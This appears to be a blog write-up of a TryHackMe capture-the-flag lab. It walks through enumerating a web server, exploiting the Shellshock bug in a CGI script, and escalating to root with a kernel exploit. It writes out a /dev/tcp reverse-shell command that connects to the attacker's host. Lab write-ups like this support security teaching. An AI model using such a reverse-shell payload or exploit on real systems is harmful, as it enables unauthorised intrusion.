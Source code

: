 ```yaml
---
title: 0day Machine - Writeup
author: Sujit Suryawanshi
date: 2020-11-09 15:10:00 +0800
categories: [TryHackMe]
tags: [tryhackme, thm, 0day]
---
```


<h3><strong><span style="color:#ff5555">0day - TryHackMe</span></strong></h3>
---

![Desktop View]({{ "/assets/img/thm-machines/0day-main.png" | relative_url }})

<strong><span style="color:#ff5555">Introduction</span></strong>

---

Hey All, Hope you all are safe and doing well. Today I'm gonna do 0day machine by Ryan Montgomery on TryHackMe.It's really good machine on ShellShock Vulnerability which is available in cgi-bin directory with test.cgi file name and the Privilage Escalation is also awesome because of the old kernel version.

So what is exactly ShellShock Vulnerability?

As per NetSparker, Shellshock is a security bug causing Bash to execute commands from environment variables unintentionally. In other words if exploited the vulnerability allows the attacker to remotely issue commands on the server, also known as remote code execution.
Since the environment variables are not sanitized properly by Bash before being executed, the attacker can send commands to the server through HTTP requests and get them executed by the web server operating system.
The ShellShock Vulnerability, discovered by Stephane Chazelas was assigned the CVE identifier CVE-2014-6271.

Now let's go for practical to understand and hack this machine.

**This blog is meant for educational purposes only.**

---

<strong><span style="color:#ff5555">Port & Service Enumeration</span></strong>

---

First starting with Nmap, I found two open ports that is Port 22 and Port 80. Here Port 22 is running OpenSSH 6.6.1p1 service and Port 80 is running Apache - 2.4.7 service on Ubuntu Operating System.

![Desktop View]({{ "/assets/img/thm-machines/0day-nmap.png" | relative_url }})
---

<strong><span style="color:#ff5555">Web Enumeration</span></strong>

---
For further enumeration, I moved to Port 80 to check which kind of web application is running.

![Desktop View]({{ "/assets/img/thm-machines/0day-website.png" | relative_url }})

So the web application was static. Lets run Dirsearch with common.txt to discover more content/directories of this web application.
On other hand I started Nikto on this web application to identify common vulnerabilities.

The Dirsearch gave me below result which contains a lot of sensitive directories.

![Desktop View]({{ "/assets/img/thm-machines/0day-dirsearch.png" | relative_url }})

I started visiting one by one to enumerate and to find something fruitful.

In **/admin** directory, I got nothing and it was totally blank page so I moved towards **/backup** directory and it gave me Private SSH key.

![Desktop View]({{ "/assets/img/thm-machines/0day-ssh-key.png" | relative_url }})

Next, I saved that key and tried to login into server with different usernames such as root, admin, ryan etc but none them worked. The SSH key was asking password to login and I was doubting on this SSH key as it can be rabbit hole.

![Desktop View]({{ "/assets/img/thm-machines/0day-ssh-error.png" | relative_url }})

At last I moved further to enumerate other directories of web application.

---

<strong><span style="color:#ff5555">Initial Shell</span></strong>

---

But before that I checked Nikto's result and it gave me a lot of hints.

![Desktop View]({{ "/assets/img/thm-machines/0day-nikto.png" | relative_url }})

In above screenshot you can see Nikto gave one uncommon header which is actually a CVE id of ShellShock Vulnerability and also it gave /cgi-bin/test.cgi file.
For exploitation, I googled CVE id and checked one Github page there I got Oneliner to test and confirm the ShellShock Vulnerability.

![Desktop View]({{ "/assets/img/thm-machines/0day-github.png" | relative_url }})

After trying above Oneliner, I confirmed the ShellShock Vulnerability and continued to get reverse shell of server.

![Desktop View]({{ "/assets/img/thm-machines/0day-oneliner.png" | relative_url }})

After using Onliner with **sh>&/dev/tcp/10.10.10.10/1337 0>&1** command, I got initial shell. Here we are redirecting the output of bash on 10.10.10.10 with Port 1337 using /dev/tcp connection.

![Desktop View]({{ "/assets/img/thm-machines/0day-reverse-shell.png" | relative_url }})

Now it's time to upgrade our shell and start enumeration to get higher privileged user.

I used python tty and set PATH environment to upgrade my shell.

After going to **/home** directory I got **ryan** user and also I was able to read his flag as the read permission was given.

![Desktop View]({{ "/assets/img/thm-machines/0day-user-flag.png" | relative_url }})

---

<strong><span style="color:#ff5555">Privilege Escalation: Root</span></strong>

---

After running **LinPeas.sh** for Privilege Escalation, I got vulnerable Linux Kernel version.

![Desktop View]({{ "/assets/img/thm-machines/0day-linpeas.png" | relative_url }})

Here SearchSploit helped me to get the exploit.

![Desktop View]({{ "/assets/img/thm-machines/0day-searchsploit.png" | relative_url }})

After running the exploit, I got the root!!!

![Desktop View]({{ "/assets/img/thm-machines/0day-root-flag.png" | relative_url }})

If you want detailed explanation about this Privilage Escalation vulnerability then go [here](https://www.halfdog.net/Security/2015/UserNamespaceOverlayfsSetuidWriteExec/)

**Thanks for reading this writeup and all suggestions are welcome.**
